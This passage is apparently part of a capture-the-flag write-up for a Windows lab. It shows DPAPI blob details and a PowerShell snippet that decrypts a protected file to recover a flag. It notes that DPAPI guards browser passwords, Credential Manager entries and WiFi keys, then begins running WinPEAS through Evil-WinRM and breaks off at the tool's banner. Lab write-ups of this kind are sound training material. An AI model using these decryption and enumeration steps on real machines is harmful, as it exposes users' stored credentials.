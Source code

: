 ```powershell
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  dwFlags            : 00000000 - 0
  dwDescriptionLen   : 0000000e - 14
  szDescription      : flag data
  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : [...]
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 0000800e - 32782 (CALG_SHA_256)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : [...]
  dwDataLen          : 00000030 - 48
  pbData             : [...]

Decrypted data: FLAG{T************3}
```

**🎯 FLAG 27 FOUND**: FLAG{T**********3} - DPAPI blob

**Alternative DPAPI Decryption**:
```powershell
# If running as the user who encrypted it
Add-Type -AssemblyName System.Security
$encryptedBytes = [System.IO.File]::ReadAllBytes("C:\Users\Public\Documents\dpapi_flag.bin")
$decryptedBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
[System.Text.Encoding]::UTF8.GetString($decryptedBytes)
```

**Why DPAPI Matters**:
- Windows uses it for all user encryption
- Chrome passwords
- Credential Manager
- EFS certificates
- WiFi passwords

---

## Advanced Techniques and Alternative Approaches

### Automated Enumeration

#### Using WinPEAS for Comprehensive Enumeration

```powershell
# Upload and run WinPEAS
*Evil-WinRM* PS C:\Temp> upload winPEASx64.exe
*Evil-WinRM* PS C:\Temp> .\winPEASx64.exe systeminfo userinfo

     =========================================
     |      ((,.,/((.,(,,,                  |
     |     ,..,(#%#((((((//,,,.              |
     |   //////************/####//          |
     |  #######**********(#######(          |
     | ################(//#######/          |
     | ###############(#########(           |
     | ########(#######/########/           |
     | ##################(#####(            |
     | #####################(               |
     |      /##########(((((                |
```